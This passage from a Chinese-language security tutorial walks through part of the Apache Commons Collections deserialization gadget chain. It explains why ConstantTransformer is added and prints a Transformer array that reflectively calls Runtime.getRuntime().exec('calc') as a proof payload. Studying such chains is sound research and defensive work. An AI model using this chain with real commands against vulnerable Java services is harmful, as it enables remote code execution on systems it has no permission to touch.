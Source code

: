 这里调用的setValue参数并不是我们想要的那个参数，所以传到的checkSetValue方法的参数value变成了这样的

[![](assets/1700127979-2f0ea4141f70e4ca56bc6290ad35dad2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155034-d2a148ca-8454-1.png)

我们必须解决这个问题。解决方法如下

我们可以利用ConstantTransformer类

[![](assets/1700127979-f8571c910d2ef707b081d391c59ee416.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155037-d4e6c4fc-8454-1.png)

这个类就比较方便，不论我们输出什么，他都会返回我们的的输出。这样的们就可以用这个类的transform

```plain
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),//添加这段
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
```
